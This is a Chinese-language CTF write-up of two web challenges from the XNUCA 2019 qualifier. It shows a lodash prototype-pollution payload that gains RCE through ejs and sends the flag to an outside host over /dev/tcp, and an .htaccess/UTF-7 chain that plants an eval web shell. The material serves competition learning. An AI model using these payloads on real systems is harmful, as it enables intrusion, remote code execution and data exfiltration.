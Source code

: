 > 原文链接: https://www.anquanke.com//post/id/185377 


# XNUCA 2019 Qualifier的两个web题目writeup


                                阅读量   
                                **395722**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">9</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p4.ssl.qhimg.com/t01e253fff58bf5d4c3.jpg)](https://p4.ssl.qhimg.com/t01e253fff58bf5d4c3.jpg)

> 上个周末打了一下XNUCA，可以说这是打CTF以来难度最高的一个比赛，全场交的flag不到100个也是十分真实，膜精心准备这次比赛的NESE的大师傅们。这里贴一下我们队（Security_Union_Of_SEU）做出来的两个web题目的writeup与题目分析。

## HardJS

### <a class="reference-link" name="%E6%88%91%E4%BB%AC%E7%9A%84%E8%A7%A3%E6%B3%95"></a>我们的解法

拿到一个nodejs项目的源码进行审计，第一步便是运行`npm audit` ，可以看到依赖项的漏洞情况。

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567017506/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.33.58_k7scsn.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567017506/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.33.58_k7scsn.png)

可以看到依赖项`lodash`存在原型链污染漏洞，即`CVE-2019-10744`.

我们查看一下项目的js源码，看看哪里调用了lodash.在查看消息的请求处理中我们可以看到当消息数量大于5时将会调用`lodash.defaultsDeep`来合并消息

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567017747/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.42.08_tjlghj.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567017747/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.42.08_tjlghj.png)

根据`CVE-2019-10744`的信息，我们知道我们只需要有消息为

```
`{`"type":"test","content":`{`"prototype":`{`"constructor":`{`"a":"b"`}``}``}``}`
```

在合并时便会在`Object`上附加`a=b`这样一个属性，任意不存在a属性的原型为Object的对象在访问其`a`属性时均会获取到`b`属性。那么这个污染究竟会起到什么样的效果？

查看项目源码，可以知道该项目使用`ejs`库作为模版引擎，众所周知`ejs`作为一个模版引擎肯定少不了类似`eval`的操作用于解析一些数据。因此我们便可以去跟一下ejs的实现看看哪里有潜在的可以收到原型链污染的调用，这里我们可以找到两处可用的地方

#### <a class="reference-link" name="pollution%20one"></a>pollution one

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567018177/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.49.19_uhwvvr.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567018177/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.49.19_uhwvvr.png)

在577行可以看到很大的一片调用全是为了动态拼接一个js语句，这里我们可以注意到当`opts`存在属性`outputFunctionName`时,该属性`outputFunctionName`便会被直接拼接到这段js中。

往下跟一下可以看到这段js的具体调用位置

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567018436/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.53.42_nvsfjo.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567018436/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.53.42_nvsfjo.png)

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567018509/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.54.52_nyndle.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567018509/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.54.52_nyndle.png)

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567018384/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.52.42_ypo8ns.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567018384/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%882.52.42_ypo8ns.png)

可以看到这段代码最后生成了一个动态的函数，且源码中正含有上述的`append`.所以我们的思路就很清晰了，只要覆盖了`opts.outputFunctionName`即可触发模版编译处的RCE.

最后我们的payload如下：

```
`{`"type":"mmp","content":`{`"constructor":`{`"prototype":
`{`"outputFunctionName":"a=1;process.mainModule.require('child_process').exec('bash -c "echo $FLAG&gt;/dev/tcp/xxxxx/xx"')//"`}``}``}``}`
```

只要提交这样的信息并触发合并操作，访问任意页面即可将flag发送到我们的后端。

#### <a class="reference-link" name="pollution%20two"></a>pollution two

除了这里的`outputFunctionName`外我们也可以覆盖`opts.escapeFunction`来实现RCE，具体源码关键点对应如下

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567018846/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.00.33_jahw5k.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567018846/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.00.33_jahw5k.png)

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567018915/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.01.44_rhgtkj.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567018915/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.01.44_rhgtkj.png)

### <a class="reference-link" name="%E9%A2%84%E6%9C%9F%E8%A7%A3"></a>预期解

赛后看了NESE大佬的官方writeup,则利用了前端和后端两个原型链污染的点，后端原型链污染用于绕过登录验证越权登录admin,覆盖`login`与`userid`即可

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567019105/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.04.53_zi1rje.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567019105/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.04.53_zi1rje.png)

而前端的原型链污染则是由于调用了`$.extend`方法

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567019227/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.06.53_ftongv.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567019227/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%883.06.53_ftongv.png)

所有的消息都被加入了no-js，我们再看看页面是怎么渲染的

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567046276/blog/QQ20190829-0_txkv7i.jpg)](https://res.cloudinary.com/durtftgrv/image/upload/v1567046276/blog/QQ20190829-0_txkv7i.jpg)

Header/notice/wiki/button/message的地方都处在沙箱中，无法XSS，我们再看看页面

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567046527/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8810.40.21_w1f58y.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567046527/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8810.40.21_w1f58y.png)

可以看到我们只要通过原型链污染添加logger属性，即可覆盖logger的内容从而导致XSS。为了打到flag只需要让页面跳转到一个我们设置的伪造的登录窗口即可。

这道题目预期解将前后端的原型链污染结合利用，可以说是十分精妙的一道题目。



## ezPHP

源码很简单(感觉越简单的源码越不好搞)，一个写文件的功能且只能写文件名为`[a-z.]*` 的文件，且文件内容存在黑名单过滤，并且结尾被加上了一行，这就导致我们无法直接写入`.htaccess`里面`auto_prepend_file`等php_value。

### <a class="reference-link" name="%E6%88%91%E4%BB%AC%E7%9A%84%E8%A7%A3%E6%B3%95"></a>我们的解法

经测试，最后一行导致的`.htaccess`报错的问题可以通过`# `来解决。

该文件中有一处`include('fl3g,php')`,该文件名不能通过正则匹配所以我们没办法直接利用该文件来getshell。那么还有什么`.htaacess` 的选项可以利用？

翻一下php的官方文档[php.ini配置选项列表](https://www.php.net/manual/zh/ini.list.php)，查找所有可修改范围为`PHP_INI_ALL`即`PHP_INI_PERDIR`的配置项，我们可以注意到这样一个选项`include_path`.

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567047371/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8810.55.54_xb4td6.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567047371/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8810.55.54_xb4td6.png)

因此只要控制`include_path`便可以使这里include进来的`fl3g.php`可以是任意目录下的某个文件，那么怎样才能控制`fl3g.php`的内容?查找所有php log相关的功能可以看到`error_log`这一选项

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567047546/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8810.58.31_zzuevv.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567047546/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8810.58.31_zzuevv.png)

所以我们的思路便很清晰了：利用error_log写入log文件到`/tmp/fl3g.php`，再设置`include_path=/tmp`即可让index.php能够包含我们想要的文件。这里的报错可以通过设置`include_path`到一个不存在的文件夹即可触发包含时的报错，且include_path的值也会被输出到屏幕上。

然而很不幸的是error_log的内容默认是`htmlentities`的,我们无法插入类似`&lt;?php phpinfo();?&gt;`的payload。那么怎么才能绕过这里的转义？

查找最近的比赛我们可以发现一篇writeup[Insomnihack 2019 I33t-hoster](//github.com/mdsnins/ctf-writeups/blob/master/2019/Insomnihack%202019/l33t-hoster/l33t-hoster.md))

[![](https://res.cloudinary.com/durtftgrv/image/upload/v1567047922/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8811.05.09_hvkhnw.png)](https://res.cloudinary.com/durtftgrv/image/upload/v1567047922/blog/%E5%B1%8F%E5%B9%95%E5%BF%AB%E7%85%A7_2019-08-29_%E4%B8%8A%E5%8D%8811.05.09_hvkhnw.png)

这便给了我们启示可以通过设置编码来绕过限制从而getshell.

因此最后的攻击方法如下：
- Step1 写入`.htaccess` error_log相关的配置
```
php_value include_path "/tmp/xx/+ADw?php die(eval($_GET[2]))+ADs +AF8AXw-halt+AF8-compiler()+ADs"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
#
```
- Step2 访问index.php留下error_log
- Step3 写入.htaccess新的配置
```
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value include_path "/tmp"
#
```
- Step4 再访问一次`index.php?2=evilcode`即可getshell.
### <a class="reference-link" name="%E5%85%B6%E4%BB%96%E9%9D%9E%E9%A2%84%E6%9C%9F%E8%A7%A3"></a>其他非预期解

赛后得知我们的解法是全场唯一的正解，此外还存在两个非预期

#### <a class="reference-link" name="%E9%9D%9E%E9%A2%84%E6%9C%9F1"></a>非预期1

设置pcre的一些选项可以导致文件名判断失效，从而直接写入`fl3g.php`

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
```

### <a class="reference-link" name="%E9%9D%9E%E9%A2%84%E6%9C%9F2"></a>非预期2

只能说这个非预期为啥我没有想到

```
php_value auto_prepend_fi
le ".htaccess"
# &lt;?php phpinfo();?&gt;
```



## 总结

以上便是我们这次XNUCA web部分的writeup，质量非常高的一场比赛，感谢NESE的大佬们。希望国内能多一些这样质量高的CTF，少一些诸如某空间之类的垃圾比赛，也希望CTF圈选手们以后都能`洁身自好`杜绝py现象。
